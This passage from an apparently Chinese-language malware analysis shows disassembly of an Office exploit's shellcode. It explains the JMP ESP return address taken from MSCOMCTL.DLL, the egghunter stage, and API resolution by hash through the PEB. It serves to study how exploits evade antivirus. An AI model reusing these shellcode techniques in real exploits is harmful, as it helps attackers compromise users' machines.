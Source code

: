     275C87CF 8B45 10 mov eax, dword ptr [ebp+10]
    275C87D2 83E1 03 and ecx, 3
    275C87D5 6A 00 push 0
    275C87D7 8D50 03 lea edx, dword ptr [eax+3]
    275C87DA 83E2 FC and edx, FFFFFFFC
    275C87DD 2BD0 sub edx, eax
    275C87DF F3:A4 rep movs byte ptr es:[edi], byte ptr [esi]
    275C87E1 8B0B mov ecx, dword ptr [ebx]
    275C87E3 52 push edx
    275C87E4 68 68236327 push 27632368
    275C87E9 53 push ebx
    275C87EA FF51 0C call dword ptr [ecx+C]
    275C87ED 8BF0 mov esi, eax
    275C87EF FF75 0C push dword ptr [ebp+C]
    275C87F2 6A 00 push 0
    275C87F4 FF35 00DE6227 push dword ptr [2762DE00]
    275C87FA FF15 74115827 call dword ptr [<&KERNEL32.HeapFree>] ; ntdll.RtlFreeHeap
    275C8800 8BC6 mov eax, esi
    275C8802 5F pop edi
    275C8803 5E pop esi
    275C8804 5B pop ebx
    275C8805 C9 leave
    275C8806 C3 retn
&emsp;&emsp;关于这个漏洞分析网上有很多，这里不作为分析重点，我们还是主要看一下此exp的shellcode是如何编写以绕过杀毒软件的。

## Shellcode1 ##

&emsp;&emsp;该exp使用了MSCOMCTL.DLL里的一个JMP ESP地址作为RET，这样可以使EXP做到与操作系统版本无关，只与OFFICE版本有关：
![JMPESP](../images/excelshellcode/JMPESP.jpg)
JMPESP
&emsp;&emsp;然后跳转回堆栈之后会先执行一小段EGGHUNTER SHELLCODE，去解码并跳转到真正的SHELLCODE。

    001396AC 81EC 00100000 sub esp, 1000
    001396B2 8BEC mov ebp, esp
    001396B4 33C9 xor ecx, ecx
    001396B6 64:8B35 3000000>mov esi, dword ptr fs:[30]
    001396BD 8B76 0C mov esi, dword ptr [esi+C]
    001396C0 8B76 1C mov esi, dword ptr [esi+1C]
    001396C3 8B5E 08 mov ebx, dword ptr [esi+8]
    001396C6 8B46 08 mov eax, dword ptr [esi+8]
    001396C9 8B7E 20 mov edi, dword ptr [esi+20]
    001396CC 8B36 mov esi, dword ptr [esi]
    001396CE 66:394F 18 cmp word ptr [edi+18], cx
    001396D2 ^ 75 F2 jnz short 001396C6
    001396D4 895D 04 mov dword ptr [ebp+4], ebx
    001396D7 8945 08 mov dword ptr [ebp+8], eax
    001396DA FF75 08 push dword ptr [ebp+8]
    001396DD 68 AD9B7DDF push DF7D9BAD
    001396E2 E8 F7000000 call 001397DE ;下面开始获取一些API地址，包括GetFileSize等
    001396E7 8945 20 mov dword ptr [ebp+20], eax
    001396EA FF75 08 push dword ptr [ebp+8]
    001396ED 68 54CAAF91 push 91AFCA54
    001396F2 E8 E7000000 call 001397DE
    001396F7 8945 24 mov dword ptr [ebp+24], eax
    001396FA FF75 08 push dword ptr [ebp+8]
    001396FD 68 AC08DA76 push 76DA08AC
    00139702 E8 D7000000 call 001397DE
    00139707 8945 28 mov dword ptr [ebp+28], eax
    0013970A FF75 08 push dword ptr [ebp+8]
    0013970D 68 1665FA10 push 10FA6516
    00139712 E8 C7000000 call 001397DE
    00139717 8945 2C mov dword ptr [ebp+2C], eax
    0013971A 6A 04 push 4